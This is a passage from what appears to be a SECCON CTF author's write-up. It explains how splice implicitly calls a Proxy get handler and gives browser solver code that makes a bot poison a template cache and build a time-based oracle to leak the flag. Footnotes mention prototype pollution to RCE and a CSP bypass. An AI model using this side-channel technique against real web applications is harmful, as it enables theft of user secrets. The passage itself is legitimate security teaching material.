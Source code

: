 
There is an interesting behavior between `splice` and `Proxy`:

```javascript
> const notes = new Proxy([], {
...   get: (target, key, receiver) => {
...     return typeof key === "string" && isFinite(key)
...       ? target[key] + "x"
...       : Reflect.get(target, key, receiver);
...   },
... });
undefined

> notes.push("1"); notes.push("2"); notes.push("3");
3
> notes
Proxy [ [ '1', '2', '3' ], { get: [Function: get] } ]

> notes.splice(1, 1)
[ '2x' ]
> notes
Proxy [ [ '1', '3x' ], { get: [Function: get] } ]
> notes[1]
'3xx' // '3' -> '3x' -> '3xx'
```

When `notes.splice(1, 1)` was executed, the `get` handler of Proxy was **implicitly** called and `"3"` changed to `"3x"`. So, the final result of `notes[1]` was `"3xx"` because the `get` handler was called again.

My solution abuses the above behavior to construct a time-based oracle.

Firstly, my solver lets the bot pollute cache in the template engine as follows (in `index.html`):
```javascript
    const polluteCache = async (flagIndex) => {
      const evilNote = `${flagIndex}-{{notes.${flagIndex}}}-{{emoji}}`;
      createNote("dummy");
      await sleep(500);
      createNote(evilNote);
      await sleep(500);
      deleteNote(MAX_FLAG_LENGTH);
      await sleep(1000);
      deleteNote(MAX_FLAG_LENGTH);
      await sleep(1000);
    }

    const main = async () => {
      const heavyTemplate = "{{x}}".repeat(HEAVY_LEVEL);
      changeEmoji(heavyTemplate);
      await sleep(1000);

      const known = "SECCON{";
      for (let i = known.length; i<MAX_FLAG_LENGTH; i++) {
        await polluteCache(i);
      }
      navigator.sendBeacon(`${location.origin}/start-leak`);
    };
    main();
```


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell